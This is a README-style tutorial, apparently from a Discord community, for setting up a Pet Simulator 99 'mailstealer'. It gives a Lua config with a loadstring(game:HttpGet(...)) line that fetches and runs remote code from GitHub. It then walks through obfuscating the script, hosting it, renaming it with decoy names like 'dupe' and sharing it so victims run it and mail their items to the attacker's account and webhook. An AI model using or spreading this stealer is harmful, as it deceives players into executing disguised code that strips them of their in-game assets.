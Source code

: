 # I had made a tutorial for my mailstealer (for pet simulator99) [Aurora](https://discord.gg/Eh7EX6dzAF) feel free to join my server, do not run anything you see here you will lose your stuf!!! this is a direct copy and paste of my tutorial from the discord
Alright chat this is a tutorial  
Since everyone's stupid and can't understand lua 😭  
And I don't have the resources to host a 24/7 mailsteal creator bot So here's a tutorial So I'll be explaining most of the shit  
# 1 getting your webhook
video tutorial below:  
[![Click me!](https://img.youtube.com/vi/video-id/0.jpg)](https://github.com/Enivzoy/Aurora/raw/main/pics/webhook.mp4)
From my [partner<3](https://discord.gg/CxhY6rpUCA)
# 2: setting up the lua code

Get the script from ⁠[script channel from discord](https://discord.com/channels/1226830019939143690/1227851051634266193)
It should look like this:
```lua
Username = "your user here"
Username2 = "your 2nd user here" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "your webhook here"
min_rap = 500000 -- minimum rap of each item you want to get sent to you.

keySystemEnabled = true -- wether you want to enable key system or not
hubName = "Hubname | Keysystem" -- self explain
keyLink = "https://example.com/" -- the link wehere yoi cam get your keys this can be a discord invite
keys = {"key1", "key2", "andsoon"} -- the keys for your key system

loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Utilz/main/lua/rblx/AuroraTils/mainframe'))()
```
Now I will update the script more  
So don't copy the script from here incase a major rewrite/bugs go join the [discord](https://discord.gg/Eh7EX6dzAF) for updated script  
So as per [update 4.6/keysystem1.2](https://discord.com/channels/1226830019939143690/1227851051634266193/1240374560046714910) the script is updated   
Make sure you have a ps99 account which can receive mail, Aka must have reached area 10. It's better to use a alt account (or 2 alt accounts incase you get banned)  
So the `Username` should be your username for like the account to receive the mail  
For example `Username = "GetAuroraMS"`  
Now here's the tricky part  
If you have an alt  
You need to fill in the `Username2` also  
If you happen to have your mains mailbox full it will send to username2  
Now if this value(Username2) is kept empty/removed then it'll be set to my ign(only if the value is empty or removed completely) to avoid errors(no this isn't dualhooking, it's a failsafe)  
~~If I'm nice I might return the items~~  
Now the webhook, You should've gotten the webhook from step 1 So put it to the `Webhook` value  
For example `Webhook = "discord.com/x/x`  
  
Now minimum rap, Minimum rap means the item has to be the same or above the rap you put into the script   
  
Now let's say you have min rap to about 1m, And you hit a guy with 500k
You won't get anything because the min rap is 1m  
Now minrap is calculated based on whole numbers(no "m" or "k" if it's 6k then it should be 6000 if it's 1m then it should be 1000000)  
So if your into the high stuff  
Set your min rap to 1-3m  
# key system (ohh boi this gon be hard to explain(i think so?))  
So key system is like a gui that opens when you run the script  
You can enable this (it's enabled by default) by setting the `keySystemEnabled` value to true  
If you dont want key system  
Just set it to false `keySystemEnabled = false`  
Or remove everything related to it (keySystemEnabled, hubName, keyLink, keys !!!!DO NOT TOUCH THE LOADSTRING!!!!)  
I think you can figure rest of the stuff out  
now after doing everything you save your script to a file call it mailsetaler.txt and save it somewhere(using notepad or a file editor) then go to step 3(part2)  
Make sure to [DM](https://discord.gg/Eh7EX6dzAF) me if you cant follow something  I'll help you   
  
# 3: obfuscation & uploading
Now you gotta obfuscate your bot so people don't spam your webhook  
I'll be showing you how to use moonsec in this tutorial  
aight  
so first you gotta join **[moonsex](https://discord.gg/2Eah77h8KC)**  
you dm this bot  
![Preview](https://cdn.discordapp.com/attachments/1240373088063983767/1240554599815843851/image.png?ex=6646fc00&is=6645aa80&hm=c00059eb81d41af59246559ce05a91eaec6fe9c490db324228a0ee55a37fb126&)  
then you send the file you saved(mailsetaler.txt - ⁠[#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240376735581601934)) to the bot  
you will see smth like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555304484212778/image.png?ex=6646fca8&is=6645ab28&hm=e403deb16ee5097d3ad0f4d7d13d64a2f71e97a3de3eabfbf4d055d99174af7a&)  
click this   
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555577516752957/image.png?ex=6646fcea&is=6645ab6a&hm=b01cb252bd11400c8d78656accf3422644a40c39a9e474bf1b16be970566403c&)   
then you click this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555948314202132/image.png?ex=6646fd42&is=6645abc2&hm=5e25be2cf8ea0ebfdfec50181b99cd40eac73ccd3acb85ab8dfdf7fbeef9f5d3&)  
it should look like this now  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/dba1dd35-2c3f-42de-b1b2-01b8b975daf3)  
then click all of these  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0fb68965-064c-45e9-ae9b-7b5dc71f45bb)  
then click obfuscate  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/4d17cc43-574c-488c-a72b-b1f3fdcb9690)  
it willl show this embed click on the **[Click Here]** to download the file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/d0202540-2646-4475-8a05-f2c6b2cef77f)  
you will have to do a linkvertise  
once you get your file(THIS WILL BE DIFFERENT FOR EVERYONE)  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8aa2dd5f-b35d-4a46-b239-366481d74d2b)  
rename it to something else like "loader" "exec" "dupe" "tradescam" "arkohub", "aurorahub" etc etc
![image](https://github.com/Enivzoy/Aurora/assets/130647229/32598d66-be6d-41d3-96f7-090ab96dd1e9)
# Now uploading
create your account at [github](https://github.com/)  
your homepage should look like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558027157934100/image.png?ex=6646ff32&is=6645adb2&hm=adb18e7598664a0ac26dbcbe0d8e8ea41cea89dee44ff07923b8c4a9eb5e9e80&)  
clickk this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558199116140584/image.png?ex=6646ff5b&is=6645addb&hm=f1cec2fc885f0a64552c64bf6153e61052b96a34d3c740606f4b87573f454243&)  
click new repository  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0782fd97-53b3-4633-a9a0-b7c383d7fa00)  
it will open this page  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558489231953921/image.png?ex=6646ffa0&is=6645ae20&hm=197bb89a6471aba248a44fe8a1f28651b414a95353cf59c5ef4f2a0f00f57ca5&)  
click create repo when filling in everything  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558688423510017/image.png?ex=6646ffcf&is=6645ae4f&hm=252937aa1796623521a705bea3941a1c2df600fed9717a6510ec4c3f14a5b2cc&)   
it will now show this   
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558792157040723/image.png?ex=6646ffe8&is=6645ae68&hm=50af32f57953c5e37732994dff3c29b9758984266c349ab2c6b671201cb9ab2e&)  
click  uploading an existing file  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558918015647774/image.png?ex=66470006&is=6645ae86&hm=69cf068aab1fc306b93d1e024919c032102b09e9544e239f4892ed41c7eeb329&)  
it will open this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559024924000266/image.png?ex=66470020&is=6645aea0&hm=218cd3f3460bcafc85b1735fec8d25d7d869bc2c783fb72912e38b7399d65e21&)  
find where you had saved your file ([#⁠tutorial-since-stupid](https://discord.com/channels/1226830019939143690/1240373088063983767/1240556624561832037)⁠ TILL⁠ [#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240557422091698176)) for me its loader saved in downloads folder  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559309784612924/image.png?ex=66470063&is=6645aee3&hm=43daaffdb521616038afa74a314ef65bc9325ed804c8867abef887b674459059&)  
drag and drop your file  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559469205913600/image.png?ex=66470089&is=6645af09&hm=b55d0ff1ef2b1d1b85707de94f60de1f99f603b03ab874bc257c8667be64ca49&)  
once uploaded click commit changes  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559673501814784/image.png?ex=664700ba&is=6645af3a&hm=6a240985d7a85cd90c53b08b87dd5688edfbbb2e70ec97d64716a1989ee9c47e&)  
if youve done everything right to this point it should look like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559816875970642/image.png?ex=664700dc&is=6645af5c&hm=31253e6aa23e6eced61432a3cf8440d62c331a3d320af266186237f88cdaa1ea&)  
click your file  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559950447771689/image.png?ex=664700fc&is=6645af7c&hm=8646488d24043feb95148a50b2ef0e1c93fac4bdabc2b37318403b4798c99627&)  
it should open this up, then click raw  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240560086980497431/image.png?ex=6647011d&is=6645af9d&hm=f245933b5d8685c95f89496c88ccf57a774e468e5db0a611eea3284258268148&)  
you will see this mess  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240560206887260262/image.png?ex=66470139&is=6645afb9&hm=97fa956118a1ed90222e0580202ce8b3eb58eebc28266688a6d0db15ef111f27&)  
copy the url for me it is https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240560332368510986/image.png?ex=66470157&is=6645afd7&hm=3f0426b6aadc9d427da50fd1983e72f33f64bce6e7f3600ccb82e70a49568215&)   
then you put the raw link into a loadstring  
`loadstring(game:HttpGet('RAW LINK HERE'))()`  
for me it is `loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader'))()`  
  
  
now you share the script  
and porfit  
profit  
make sure to dm me your profits  
so i can advertise it 👍  
if you dont understand something make sure to dmme  
# thanks to my discord server, arko and levox and future partners for providing me with resources and etc

  
since you read everything heres a nsfw pic
<details>
  <summary>:) warning dont open this infront of parents xD</summary>  
    
  ![Preview](https://raw.githubusercontent.com/Enivzoy/Aurora/master/pics/w.png)
</details>

